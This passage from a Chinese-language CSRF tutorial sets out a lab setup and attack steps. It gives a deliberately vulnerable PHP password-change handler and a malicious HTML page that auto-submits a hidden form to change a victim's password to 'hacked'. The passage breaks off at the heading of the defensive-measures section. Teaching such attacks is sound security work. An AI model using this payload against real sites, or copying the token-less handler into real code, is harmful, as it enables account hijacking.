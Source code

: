 ## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
1. **安装Web服务器**：安装Apache或Nginx等Web服务器。
2. **部署目标网站**：部署一个包含CSRF漏洞的目标网站，例如一个简单的用户管理系统。
3. **部署恶意网站**：部署一个恶意网站，用于构造和发送恶意请求。

### 3.2 攻击步骤
1. **登录目标网站**：使用受害者账号登录目标网站，获取会话Cookie。
2. **构造恶意请求**：在恶意网站上构造一个包含恶意操作的请求，例如修改用户密码的请求。
3. **诱导受害者访问恶意网站**：通过邮件、社交媒体等方式诱导受害者访问恶意网站。
4. **浏览器发送请求**：受害者的浏览器在访问恶意网站时，自动发送包含会话Cookie的请求到目标网站。
5. **目标网站执行操作**：目标网站接收到请求后，由于请求包含有效的会话Cookie，误认为是受害者发起的合法请求，执行相应的操作，例如修改用户密码。

### 3.3 实验代码示例
**目标网站代码（PHP）**：
```php
<?php
session_start();
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_SESSION['user'])) {
        $new_password = $_POST['new_password'];
        // 修改用户密码
        echo "Password changed to: " . $new_password;
    } else {
        echo "Unauthorized";
    }
}
?>
```

**恶意网站代码（HTML）**：
```html
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Site</title>
</head>
<body>
    <form id="csrfForm" action="http://target-site.com/change_password.php" method="POST">
        <input type="hidden" name="new_password" value="hacked">
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

## 4. 防护措施
